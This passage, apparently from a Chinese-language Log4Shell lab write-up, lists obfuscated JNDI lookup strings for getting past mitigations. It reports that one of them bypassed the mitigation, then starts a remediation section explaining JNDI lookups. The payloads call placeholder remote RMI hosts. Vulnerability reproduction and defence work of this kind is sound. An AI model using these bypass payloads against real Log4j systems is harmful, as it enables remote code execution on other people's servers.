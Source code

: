 11.对缓解之后的漏洞进行绕过，有以下常规的绕过方式：

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

我们在此使用

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
```

绕过成功：

![缓解后绕过成功](picture/缓解后绕过成功.png)

---

#### 七、漏洞修复

1.原理分析：

Log4j 提供了一个名为 **JNDI（Java Naming and Directory Interface）** 的功能，允许从远程服务器中动态加载类或资源。
 在日志消息或参数中，Log4j 支持解析形如 `${}` 的表达式，并允许通过 JNDI 加载外部数据。

